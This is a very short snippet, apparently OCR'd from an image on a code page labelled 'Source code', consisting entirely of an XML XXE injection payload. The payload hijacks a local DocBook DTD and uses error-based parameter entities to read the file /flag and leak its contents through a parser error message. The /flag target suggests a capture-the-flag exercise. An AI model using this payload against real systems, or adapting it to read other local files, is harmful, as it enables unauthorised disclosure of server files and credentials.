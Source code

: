 ```
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

